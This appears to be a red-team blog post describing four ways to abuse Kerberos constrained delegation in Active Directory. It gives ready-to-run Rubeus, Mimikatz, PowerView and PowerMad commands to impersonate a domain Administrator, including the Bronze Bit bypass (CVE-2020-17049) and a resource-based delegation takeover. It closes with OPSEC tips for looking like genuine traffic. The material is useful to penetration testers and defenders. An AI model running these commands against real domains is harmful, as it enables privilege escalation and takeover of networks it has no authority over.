 ```yaml
---
title: 4 Ways to Abuse Constrained Delegation
date: 2022-03-15 09:48:47 +07:00
categories: RedTeaming
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Various attack prototypes for Constrained Delegation Abuse
---
```


# Constrained Delegation

- [Attack Variants](#attack-variants)
	- [Basic Constrained Delegation Exploitation](#Basic-Constrained-Delegation-Exploitation)
	- [Alternate Service Name Abuse](#alternate-service-name-abuse)
	- [Bronze Bit Attack](#bronze-bit-attack)
	- [Abusing Resource Based Constrained Delegation](#abusing-resource-based-constrained-delegation)
- [OPSEC](#opsec)
- [Resources](#resources)
- **Constrained Delegation** was soon released after unconstrained delegation as a safer means for services to perform Kerberos delegation. It aims to restrict the services to which the server can act on behalf of a user. It no longer allows the server to cache the TGTs of other users, but allows it to request a TGS for another user with its own TGT.
- To impersonate the user, *Service for User (S4U)* extensions are used which provides two extensions:
	- **Service for User to Self (S4U2self)** - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password. The service account must have the *TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION – T2A4D UserAccountControl* attribute.
	- **Service for User to Proxy (S4U2proxy)** - Allows a service to obtain a TGS to a second service on behalf of a user. Which second service? This is controlled by *msDS-AllowedToDelegateTo* attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.
	![](Constrained1.png)
- To perform the delegation, we ultimately need the TGT of the principal (**machine or user**) trusted for delegation. We can extract it from a machine (Rubeus dump) or request one using the NTLM / AES keys (Mimikatz `sekurlsa::ekeys` + Rubeus `asktgt`).
1. Enumerate users/computers with constrained Delegation
	- In Bloodhound: 
		- Users `MATCH (c:User), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p`
		- Computers: `MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p`
	- In Powerview:
		- Users: `Get-DomainUser –TrustedToAuth`
		- Computers: `Get-DomainComputer –TrustedToAuth`
	- Using ADModule enumerate both computers and users: ```Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo```
> NOTE: Constrained delegation can be configured on user accounts as well as computer accounts.  Make sure you search for both.

------------------------------------------------------

# Attack Variants

## Basic Constrained Delegation Exploitation

1. To perform the delegation, we ultimately need the TGT of the principal (machine or user) trusted for delegation.  We can extract it from a machine (Rubeus `dump`) or request one using the NTLM / AES keys (Mimikatz `sekurlsa::ekey`s + Rubeus `asktgt)`: 
```
.\Rubeus.exe asktgt /user:svc_with_delegation /domain:targetdomain.com /rc4:2892......1211414
```
2. Use `s4u2self` and `s4u2proxy` to impersonate the Target user delegated to the allowed SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:cifs/dc /ptt
```

## Alternate Service Name Abuse

- Another interesting issue in Kerberos is that the delegation occurs not only for the specified service on the target machine but for any service running on the machine under the same account name. There is no validation for the SPN specified in s4u. 
- This is huge as it allows access to many interesting services such as `CIFS` when the delegation may be for a non-intrusive service like `TIME`.
1. Use `s4u2self` and `s4u2proxy` to impersonate the Target user delegated to an alternate SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /altservice:cifs /ptt
```

## Bronze Bit Attack

- *CVE-2020-17049* - An attacker can impersonate users which are not allowed to be delegated. This includes members of the **Protected Users group** and any other users explicitly configured as sensitive and cannot be delegated.
- Patch is out on November 10, 2020, DC are most likely vulnerable until *February 2021*.
- `Patched Error Message` : `[-] Kerberos SessionError: KRB_AP_ERR_MODIFIED(Message stream modified)`
1. Use `s4u2self` and `s4u2proxy` to impersonate a user who is protected from delegation: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:cifs/dc /bronzebit /ptt
```
2. This attack can also be chained with the `altservice` attack to delegate to an alternate SPN: 
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /bronzebit /altservice:cifs /ptt
```

## Abusing Resource Based Constrained Delegation
- It's possible to gain code execution with elevated privileges on a remote computer if you have *WRITE* privilege on that computer's AD object.
- Resource-Based Constrained Delegation (RBCD) configures the backend server (e.g. MSSQL) to allow only selected frontend services (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.
- DACL Property: `msDS-AllowedToActOnBehalfOfOtherIdentity`.
- In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the frontend service) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the backend service. This means that the frontend service needs to have an SPN set. Thus, attacks against RBCD have to be performed from either a service account with SPN or a machine account.
- If we compromise a frontend service that appears in the RBCD property of a backend service, exploitation is the same as with constrained delegation above. This is however not too common.
- A more often-seen attack to RBCD is when we have *GenericWrite, GenericAll, WriteProperty, or WriteDACL* permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation.
1. Create a new machine account using PowerMad: 
```
New-MachineAccount -MachineAccount NewMachine -Password $(ConvertTo-SecureString 'P4ssword123!' -AsPlainText -Force)
```
2. Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target:
```
$sid = Get-DomainComputer -Identity NewMachine -Properties objectsid | Select -Expand objectsid; $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"; $SDbytes = New-Object byte[] ($SD.BinaryLength); $SD.GetBinaryForm($SDbytes,0)
```
3. Use PowerView to use our `GenericWrite` (or similar) priv to apply this SD to the target: 
```
Get-DomainComputer -Identity TargetSrv | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
4. Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target:
```
.\Rubeus.exe s4u /user:NewMachine$ /rc4:A9A70FD4DF48FBFAB37E257CFA953312 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv.targetdomain.com /ptt
```

-----------------------------------------------------

# OPSEC

- We should request TGTs with the AES keys (`/aes256:a561a175e395758550c912......`) rather than NTLM hash.
- Rubeus also has an `/opsec` argument which tells it to send the request without *pre-auth*, to more closely emulate genuine Kerberos traffic.

-----------------------------------------------------

# Resources

1. https://courses.zeropointsecurity.co.uk/courses/red-team-ops
2. https://www.pentesteracademy.com/activedirectorylab
3. https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution
4. https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference







